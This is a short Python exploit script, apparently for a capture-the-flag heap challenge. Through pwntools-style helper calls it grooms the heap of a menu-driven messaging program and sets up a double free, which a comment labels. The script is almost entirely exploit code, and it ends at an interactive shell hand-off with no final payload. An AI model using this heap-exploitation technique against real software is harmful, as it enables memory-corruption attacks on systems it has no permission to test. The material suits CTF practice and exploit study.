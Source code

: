 ```python
def switch_func(usrname):
	menu("switch")
	ru("Enter username to switch to: ")
	sl(usrname)

def message_func(usrname,size,content):
	menu("message")
	ru("To: ")
	sl(usrname)
	ru("Message size:")
	sl(str(len(content)))
	ru("Content:")
	sl(content)

def read_func():
	menu("read")

def list_func():
	menu("listuser")


ru("Enter new username:")
sl("chuwwei1")
add("cc")
add("bb")
add('aa')
for i in range(3):
	message_func('bb', 0x78, b'a' * 0x78)

delete("bb")
add("bb")

delete("aa")

message_func('aa', 0x78, b'a' * 0x78)
message_func('aa', 0x78, b'a' * 0x78)
message_func('aa', 0x78, b'a' * 0x78)

message_func('bb',0x78,b"a"*0x78) #double free
for i in range(7):
	message_func("cc",0x78,b"c"*0x78)
delete("cc")
add("cc")
add("aa")
message_func('aa', 0x78, b'a' * 0x78)
delete("bb")


p.interactive()

```
